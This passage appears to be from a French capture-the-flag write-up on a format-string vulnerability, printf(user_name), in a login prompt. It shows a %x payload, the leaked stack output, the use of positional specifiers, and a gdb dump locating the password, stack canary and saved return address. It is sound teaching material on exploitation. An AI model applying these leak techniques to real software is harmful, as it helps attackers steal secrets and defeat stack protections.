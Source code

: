 Pour l'instant cela ne nous apprends pas grand chose, nous sommes limités en taille par le `fgets(user_name,0x78,stdin)` qui ne lit que 0x78 (120) octets.

```bash
Veuillez décliner votre identité:
AAAAAAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Bonjour AAAAAAAAb81b80f004532c704c2880b81ba52841cb7ec4942004049500849501349502e49504921393c6c7a642332352942212b0007c6e4c288004c28809414141417825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825a9f212001401d4a040174b0b81ba528b81ba5384a8b4f771b81ba528
Quel est votre mot de passe?

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...
```
C'est plus moche ... mais pour le coup on retrouve bien nos 'AAAAAAAA' sur la stack : `41414141` suivit des `7825` qui correspondent aux caractères `%x`.

- Le programme lit notre login
- le pose dans la stack
- puis doit l'afficher `printf(user_name)`

A ce moment, comme nous avons inséré des caractères de chaîne formatée dans le login (pour le moment %x), il va chercher sur la stack autant d'arguments que formateurs dans la chaîne.


Comme nous sommes réduit par la taille de la saisie, on va utiliser les modifieurs comme `i$` qui indique que `%x` correspond au `ie` argument, donc pour nous au `ie` offset sur la stack au moment de l'appel à `printf`.

Pour lire toutes les valeurs sous forme d'une adresse hexa, on va utiliser `%p` dans notre format string.

Y'a plus qu'à regarder la stack dans gdb pour voir les offset entre notre sasie et le mot de passe.


Juste après la saise du login :


```bash
gdb-peda$ x/42gx $rsp
0x7fffffffdd20:	0x00007fffffffe038	0x000000010041cb7e <= top stack
0x7fffffffdd30:	0x004d0000004cb440	0x0000000200000000
0x7fffffffdd40:	0x0000000000000004	0x0000000000000000
0x7fffffffdd50:	0x0000000000495008	0x0000000000495013
0x7fffffffdd60:	0x000000000049502e	0x0000000000495049
0x7fffffffdd70:	0x3630463765435738	0x432135613a793236 <= mdp aléatoire sur 0x14 (20) octets
0x7fffffffdd80:	0x000000004d6c7d24	0x0000000000000002 <=
0x7fffffffdd90:	0x000000320000000b	0x0000000000000000
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000
0x7fffffffddb0:	0x000000770000007c	0x0000005b0000006e
0x7fffffffddc0:	0x00000000004c2880	0x0000000000000000
0x7fffffffddd0:	0x00000000004c2880	0x0000000000000009
0x7fffffffdde0:	0x4141414141414141	0x4242424242424242 <= login
0x7fffffffddf0:	0x4343434343434343	0x4444444444444444
0x7fffffffde00:	0x000000000000000a	0x0000000000000000
0x7fffffffde10:	0x00000000004c32e0	0x0000000000000000
0x7fffffffde20:	0x0000000000000000	0x0000000000487f1e
0x7fffffffde30:	0x00007fffffffde90	0x00000000004be770
0x7fffffffde40:	0x0000000000000000	0x0000000000458039
0x7fffffffde50:	0x000000062d33302d	0x1385a4d2e7ce8100 <= canary
0x7fffffffde60:	0x0000000000000001	0x0000000000401d4a <= saved RIP (adresse de retour de main)
```
